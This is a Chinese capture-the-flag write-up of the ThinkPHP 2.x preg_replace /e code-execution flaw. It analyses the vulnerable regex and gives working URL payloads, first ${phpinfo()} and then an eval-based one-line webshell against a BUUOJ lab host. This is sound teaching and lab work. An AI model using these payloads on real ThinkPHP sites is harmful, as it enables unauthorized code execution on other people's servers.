## c



进来是这个页面



构造路径。




好，构造正确，但是服务器拦截了对该操作的访问



打开提示网站，看到关键信息



## 分析正则

> 老版本的正则可以用 ’@‘符号表示模式。以下正则是模式e

```php
preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

1. 看第一个括号，表示匹配任意字符串。并将变量向后引用到位置1

2. $depr 变量默认是'/'

3. $paths 变量是提交的url路径

4. 看第二个括号，表示匹配除'/'以外的字符，再匹配一个字符 '/\'。并将变量向后引用到位置2



所以，最后匹配后得到的内容就是

```
$var[任意字符串1] = 任意字符串2 + /
```

注意位置2用了双引号闭合，而双引号闭合是可以解析变量的。这就是漏洞所在


## 代码审计

由于tp2测试环境搭建麻烦，php版本也没有对于的xdebug。只能用docker环境， 然后看变量就将其输出到文件夹。


定位到漏洞代码位置，加上一行测试代码，查看正则后的$var变量



```php
file_put_contents('/var/www/html/test.txt', print_r($var, true).'\n', FILE_APPEND | LOCK_EX);
```


一番docker简单替换文件后，只要我们带着路径访问就可以得到一个test.txt文件。




于是在'iam'的位置构造payload。因为这里用了双引号。

```php
/index.php/Index/index/yes/${phpinfo()}
```




php一个特性。${a} = $a，如果a是一个变量，则会在双引号下会解释这个变量。如果花括号里面是代码，会将其运行。得到的结果当成变量名。由于phpinfo没有返回值。所以为yes对应的值为空。




phpinfo是会向屏幕输出，但没有返回值。或者说是返回空值。


至此漏洞就清晰明了了。


最后构造一句话payload，记得添加eval代码。不然只是接受你的参数，但无法执行

```php
http://node4.buuoj.cn:27489/index.php/Index/index/yes/${@eval($_POST[1])}
```

> 用数字型一句话密码是因为字符串型要用引号，而目标有魔术引号转义




以为flag是个文件，找啊找。最后小丑竟是我自己！


